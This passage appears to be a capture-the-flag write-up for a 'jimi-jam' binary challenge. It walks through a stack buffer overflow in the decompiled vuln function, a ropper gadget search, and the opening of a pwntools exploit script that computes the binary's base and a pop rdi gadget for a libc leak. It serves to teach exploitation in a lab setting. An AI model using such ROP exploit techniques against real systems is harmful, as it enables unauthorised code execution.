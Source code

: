 We can see that the executable is setting up a *rop jail* of some sort and than prints the address of said jail (`ROPJAIL`). 
`ROPJAIL` resides inside the `.bss` section of the binary:
```objdump
SYMBOL TABLE:
0000000000004020 l    d  .bss   0000000000000000              .bss
0000000000004048 l     O .bss   0000000000000001              completed.8060
0000000000004020 g     O .bss   0000000000000008              stdout@@GLIBC_2.2.5
0000000000004030 g     O .bss   0000000000000008              stdin@@GLIBC_2.2.5
0000000000004060 g     O .bss   0000000000002000              ROPJAIL
0000000000006060 g       .bss   0000000000000000              _end
0000000000004010 g       .bss   0000000000000000              __bss_start
0000000000004040 g     O .bss   0000000000000008              stderr@@GLIBC_2.2.5
```

As it turns out this jail is not really important for this part of the challenge.
It will become relevant in the second version [below](#jimi2) though.

So let's skip ahead to the `vuln` function:
```c
void vuln(void) {
  undefined local_10 [8];
  
  puts("Hey there! You\'re now in JIMI JAM JAIL");
  read(0,local_10,0x40);
  return;
}
```

This is a basic stack overflow vulnerability.

My plan then was the following:
1. Leak a `libc` address
2. Re-use the vulnerablity to execute a ROP chain into `libc`

The first part requires a gadget to alter `%rdi` which is available in the binary:
```
$ ropper -f jimi-jam --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: jimi-jam
0x00000000000013a3: pop rdi; ret;
```

We can use it to set up an argument to f. e. `puts` and print the content of the global offset table for any library function.
I simply chose `puts` again here:

```python
from pwn import *
import sys

io = process(["./jimi-jam"], env={ "LD_PRELOAD": "./libc.so.6" })

io.recvline()

center = io.recvline().rsplit(b" ", 1)[-1].strip()
base = int(center.decode("utf-8")[2:], 16) - 0x4060
print(center)
print(hex(base))

io.recvline()

pop_rdi = 0x00000000000013a3 + base

```